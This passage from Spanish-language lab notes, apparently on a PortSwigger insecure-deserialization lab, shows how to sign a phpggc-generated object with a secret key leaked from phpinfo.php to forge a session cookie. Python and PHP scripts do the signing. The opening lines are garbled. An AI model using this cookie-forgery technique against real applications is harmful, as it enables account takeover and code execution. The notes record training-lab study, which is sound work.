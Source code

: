 ```js
	2. Construct a valid cookie containing this malicious object and sign it basicamente nos falta firmar el objeto serializado con el SECRET_KEY que encontramos en `phpinfo.php` correctly using the secret key you obtained. - NOS TOCA AHORA FIRMAR EL OBJETO:
	3. -> afuera
```

##### Luego de tener el ./phpggc ahora nos toca Firmar el objeto con la `SECRET_KEY`

Con un pequeño script en python que me hice: 

* Directorio: `/Users/juanfelipeoz/firma2.py` Actualizar sus valores correspondientes!!!
* ACTIVAR EL ENTORNO VIRTUAL. 

```python
import base64
import hmac
import hashlib
import urllib.parse
import json

# Objeto serializado en formato base64
	object_data = "OBJECT_SERIALIZED_BASE64"

# Clave secreta
secret_key = "SECRET_KEY_OBTAINED" #Sabemos que una buena practica en la vida real sería tener la cookie en variable de entorno.

# Crear la firma HMAC-SHA1
sig_hmac_sha1 = hmac.new(secret_key.encode(), object_data.encode(), hashlib.sha1).hexdigest()

# Generar la cookie en formato JSON con los valores token y sig_hmac_sha1
cookie_data = {
    "token": object_data,
    "sig_hmac_sha1": sig_hmac_sha1
}

# Convertir el diccionario a JSON
cookie_json = json.dumps(cookie_data)

# Codificar la cookie en formato URL
encoded_cookie = urllib.parse.quote(cookie_json)

print(encoded_cookie)
```

![[Pasted image 20250219062228.png]]

* Actualizamos la cookie session y listo!!
##### Portswigger también ofrece un script de generación firma, en PHP →

```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```
